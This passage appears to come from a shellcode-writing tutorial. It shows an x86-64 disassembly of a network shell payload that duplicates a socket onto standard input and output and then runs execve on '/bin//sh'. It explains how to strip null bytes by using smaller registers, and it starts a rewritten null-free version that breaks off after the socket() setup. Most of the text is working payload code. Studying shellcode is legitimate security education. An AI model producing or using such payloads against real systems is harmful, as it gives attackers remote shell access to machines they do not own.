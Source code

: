 ```term
  5f:   48 83 ec 01             sub    rsp,0x1
  63:   48 89 e2                mov    rdx,rsp
  66:   0f 05                   syscall 
  68:   49 89 c1                mov    r9,rax
  6b:   b8 03 00 00 00          mov    eax,0x3
  70:   0f 05                   syscall 
  72:   4c 89 cf                mov    rdi,r9
  75:   b8 21 00 00 00          mov    eax,0x21
  7a:   be 00 00 00 00          mov    esi,0x0
  7f:   0f 05                   syscall 
  81:   b8 21 00 00 00          mov    eax,0x21
  86:   be 01 00 00 00          mov    esi,0x1
  8b:   0f 05                   syscall 
  8d:   b8 21 00 00 00          mov    eax,0x21
  92:   be 02 00 00 00          mov    esi,0x2
  97:   0f 05                   syscall 
  99:   48 31 c0                xor    rax,rax
  9c:   50                      push   rax
  9d:   48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f2f6e69622f
  a4:   2f 73 68 
  a7:   53                      push   rbx
  a8:   48 89 e7                mov    rdi,rsp
  ab:   50                      push   rax
  ac:   48 89 e2                mov    rdx,rsp
  af:   57                      push   rdi
  b0:   48 89 e6                mov    rsi,rsp
  b3:   48 83 c0 3b             add    rax,0x3b
  b7:   0f 05                   syscall
```

It seems as this assembly program has a great quantity of null opcodes. Nonetheless, if we pay close attention, we might notice that most of these come from mov instructions. 
For instance, when a single byte such as 1 is being inserted into a 64-bit register such as RAX, a lot of nulls will be parsed as well. This could easily be circumvented by 
pushing such bytes as WORDs and then saving such values in Lower 16 bit registers such as ax, bx, dx, bp, and so forth. 

Other techniques could simply implement using a lower bit register such as lower 8-bits instead of 64-bits when it comes to small operations. 

Final code:

```term
global _start


_start:

        ; sock = socket(AF_INET, SOCK_STREAM, 0)
        ; AF_INET = 2
        ; SOCK_STREAM = 1
        ; syscall number 41

        xor rax, rax
        xor rdi, rdi
        xor rsi, rsi

        mov al, 41

        inc rdi
        inc rdi

        inc rsi

        xor rdx, rdx
```